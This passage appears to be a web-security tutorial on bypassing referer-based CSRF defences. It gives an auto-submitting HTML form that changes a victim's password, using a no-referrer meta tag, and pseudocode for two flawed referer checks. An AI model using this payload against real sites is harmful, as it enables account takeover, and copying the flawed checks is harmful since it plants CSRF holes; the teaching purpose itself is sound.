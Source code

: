 The server might check for the `referer header` sent with the `state-changing request` if it’s allowed with `allowedlisted domain`.

**What can you do to bypass this type of protection?**

First you can remove the referer header 

To remove the referer header, add a `<meta>` tag to the page hosting your request form:

```jsx
<html>
 <meta name="referrer" content="no-referrer">
 <form method="POST" action="https://email.example.com/password_change" id="csrf-form">
 <input type="text" name="new_password" value="abc123">
 <input type='submit' value="Submit">
 </form>
 <script>document.getElementById("csrf-form").submit();</script>
</html>
```

The faulty application logic might look like this:

```jsx
def validate_referer():
 if (request.referer in allowlisted_domains):
pass
 else:
 throw_error("Referer incorrect. Request rejected.")
[...]
def process_state_changing_action():
 if request.referer:
 validate_referer()
 execute_action()
```

Since the application validates the referer header only if it exists, you’ve successfully bypassed the website’s CSRF protection just by making the victim’s browser delete the referer header!

You can also try to bypass the `logic check` used to validate the referer URL.

Let’s say the application looks for the string "[`example.com`](http://example.com/)" in the referer URL, and if the `referer URL contains that string`, the application treats the request as `legitimate`. Otherwise, it `rejects` the request:

```jsx
def validate_referer():
 if request.referer:
 if ("example.com" in request.referer):
 pass
 else:
 throw_error("Referer incorrect. Request rejected.")
[...]
def process_state_changing_action():
 validate_referer()
 execute_action()
```
